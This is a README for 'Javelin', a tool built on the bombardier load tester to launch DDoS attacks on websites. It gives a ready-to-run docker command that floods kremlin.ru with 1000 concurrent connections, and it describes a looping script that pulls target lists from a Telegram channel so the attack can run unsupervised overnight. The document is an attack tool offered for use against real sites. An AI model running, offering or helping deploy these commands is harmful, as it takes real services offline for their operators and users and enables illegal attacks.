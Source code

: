 # Javelin 🚀

🇺🇦 A DDoS helper tool to bring down enemy websites - based on [bombardier](https://github.com/codesenberg/bombardier) for long-term unsupervised execution 🇺🇦  

### [Інструкція українською](./README_UA.md)
### [Инструкция на русском](./README_RU.md)

### Simplified instruction - manual execution
- Install Docker - [Instructions](https://docs.docker.com/get-docker/)
- `docker run -it alpine/bombardier -c 1000 -d 60s -l https://kremlin.ru`
- Last part of the comand is host url, you should pick one [from the last chat messages](https://t.me/itarmyofukraine2022)  

Automatic script performs the same command and loops through a list of hosts, so you can leave it unsupervised overnight or for long periods of time. It also automatically fetches updates to the list.

### Get the code
- Clone the repo - `git clone https://github.com/v1adko/javelin.git`   
  or  
[download a zip](https://github.com/v1adko/javelin/archive/refs/heads/master.zip) if git clone is taking too long
- Change working directory - `cd ./javelin`
- Optionally update [the targets](#targets)

### Targets

Best update targets from [this telegram channel](https://t.me/itarmyofukraine2022)  
Edit contents of the [./hitlist.sh](/hitlist.sh) file

### Run in Docker

*Note*: this could take quite some time, if you're tech-savvy enough,  
try [installing binaries manually](#local) directly on your host system,  
it should be faster

- Install Docker - [Instructions](https://docs.docker.com/get-docker/)
- Optionally update [the targets](#targets)
- `docker-compose up --build` (on some systems compose is not installed with docker)
   **or**
- `docker build -t javelin .`
- `docker run javelin`

### Local

- Install Go - [Instructions](https://go.dev/doc/install)
- Install bombardier [by downloading a binary](https://github.com/codesenberg/bombardier/releases)
- Run `./javelin-local.sh`

### Run

Now leave the process running for as much as you can
Thank you for fighting on our side! 💪 🇺🇦
